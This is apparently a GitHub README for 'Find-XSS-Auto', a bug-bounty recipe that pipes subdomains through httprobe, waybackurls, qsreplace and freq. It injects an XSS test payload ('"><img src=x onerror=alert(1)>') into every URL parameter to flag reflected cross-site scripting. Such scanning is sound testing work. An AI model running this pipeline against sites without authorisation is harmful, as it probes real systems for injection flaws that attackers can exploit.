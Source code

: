 # Find-XSS-Auto
Auto Find Cross Site Scripting 
## How To Install
1. Install _httprobe_

```go get -u github.com/tomnomnom/httprobe```

2. Install _waybackurls_

```go get github.com/tomnomnom/waybackurls```

3. Install _qsreplace_

```go get -u github.com/tomnomnom/qsreplace```

4. Install _freq_

```go get -u https://github.com/takshal/freq```

## How to Find XSS 
```
cat subdomains.txt | httprobe | tee -a host.txt
cat host.txt | waybackurls | tee -a endpoint.txt
cat endpoint.txt | qsreplace '"><img src=x onerror=alert(1)>' | tee -a xss_fuzz.txt
cat xss_fuzz.txt | freq | tee -a possible_xss.txt
```

## REF 
https://infosecwriteups.com/how-i-was-able-to-find-50-cross-site-scripting-xss-security-vulnerabilities-on-bugcrowd-public-ba33db2b0ab1
